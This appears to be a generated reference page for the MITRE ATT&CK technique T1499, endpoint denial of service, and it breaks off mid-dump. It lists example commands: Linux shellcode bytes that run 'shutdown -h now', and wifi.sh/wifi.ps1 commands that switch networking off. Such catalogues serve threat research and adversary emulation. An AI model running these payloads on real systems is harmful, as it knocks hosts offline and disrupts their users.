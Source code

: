 ## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: None
* Platforms: ['Linux', 'macOS', 'Windows', 'AWS', 'GCP', 'Azure', 'Office 365', 'Azure AD', 'SaaS']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1499

## Potential Commands

```
{'linux': {'shellcode_amd64,shellcode_386': {'command': '0x48, 0x31, 0xc0, 0x48, 0x31, 0xd2, 0x50, 0x6a, 0x77, 0x66, 0x68, 0x6e, 0x6f, 0x48, 0x89, 0xe3, 0x50, 0x66, 0x68, 0x2d, 0x68, 0x48, 0x89, 0xe1, 0x50, 0x49, 0xb8, 0x2f, 0x73, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x2f, 0x49, 0xba, 0x73, 0x68, 0x75, 0x74, 0x64, 0x6f, 0x77, 0x6e, 0x41, 0x52, 0x41, 0x50, 0x48, 0x89, 0xe7, 0x52, 0x53, 0x51, 0x57, 0x48, 0x89, 0xe6, 0x48, 0x83, 0xc0, 0x3b, 0x0f, 0x05\n'}}}
{'darwin': {'sh': {'command': './wifi.sh off\n', 'cleanup': './wifi.sh on\n', 'payloads': ['wifi.sh']}}, 'linux': {'sh': {'command': './wifi.sh off\n', 'cleanup': './wifi.sh on\n', 'payloads': ['wifi.sh']}}, 'windows': {'psh': {'command': '.\\wifi.ps1 -Off\n', 'cleanup': '.\\wifi.ps1 -On\n', 'payloads': ['wifi.ps1']}}}
```

## Commands Dataset

```
[{'command': {'linux': {'shellcode_amd64,shellcode_386': {'command': '0x48, '
                                                                     '0x31, '
                                                                     '0xc0, '
                                                                     '0x48, '
                                                                     '0x31, '
                                                                     '0xd2, '
                                                                     '0x50, '
                                                                     '0x6a, '
                                                                     '0x77, '
                                                                     '0x66, '
                                                                     '0x68, '
                                                                     '0x6e, '
                                                                     '0x6f, '
                                                                     '0x48, '
                                                                     '0x89, '
                                                                     '0xe3, '
                                                                     '0x50, '
                                                                     '0x66, '
                                                                     '0x68, '
                                                                     '0x2d, '
                                                                     '0x68, '
                                                                     '0x48, '
                                                                     '0x89, '
                                                                     '0xe1, '
                                                                     '0x50, '
                                                                     '0x49, '
                                                                     '0xb8, '
                                                                     '0x2f, '
                                                                     '0x73, '
```
